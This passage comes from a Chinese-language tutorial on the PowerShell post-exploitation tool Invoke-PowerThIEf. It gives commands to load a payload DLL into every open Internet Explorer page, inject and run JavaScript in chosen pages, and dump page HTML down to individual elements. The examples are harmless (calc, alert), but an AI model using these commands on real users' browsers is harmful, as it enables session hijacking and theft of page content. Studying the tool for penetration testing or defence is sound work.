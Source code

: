 示例如下：

```
Invoke-PowerThIEf -action ExecPayload -PathPayload calc_x64.dll
```

默认会在所有页面中执行加载dll的操作，并且会新建新的页面

例如：

如果当前IE进程有3个页面，执行该操作后会执行3次加载dll的操作，并且会在IE浏览器中新建3个页面

个人认为该功能的效果有限

#### (3)向IE页面中插入JavaScript代码并执行

针对所有页面：

```
Invoke-PowerThIEf -action InvokeJS -Script <JavaScript to run>
```

针对指定页面：

```
Invoke-PowerThIEf -action InvokeJS -BrowserIndex <BrowserIndex> -Script <JavaScript to run>
```

**注：**

`<BrowserIndex>`可通过ListUrls命令获得

示例如下：

```
Invoke-PowerThIEf -action InvokeJS -Script 'alert(document.location.href);'

Invoke-PowerThIEf -action InvokeJS -BrowserIndex 132572 -Script "alert(`"1`");"
```

#### (4)Dump页面内容

针对所有页面：

```
Invoke-PowerThIEf -action DumpHTML
```

针对指定页面：

```
Invoke-PowerThIEf -action DumpHTML -BrowserIndex <BrowserIndex>
```

针对指定页面的指定元素：

```
Invoke-PowerThIEf -action DumpHTML -BrowserIndex <BrowserIndex> -SelectorType tag -Selector <type>

Invoke-PowerThIEf -action DumpHTML -BrowserIndex <BrowserIndex> -SelectorType id -Selector <id>

Invoke-PowerThIEf -action DumpHTML -BrowserIndex <BrowserIndex> -SelectorType name -Selector <name>
```
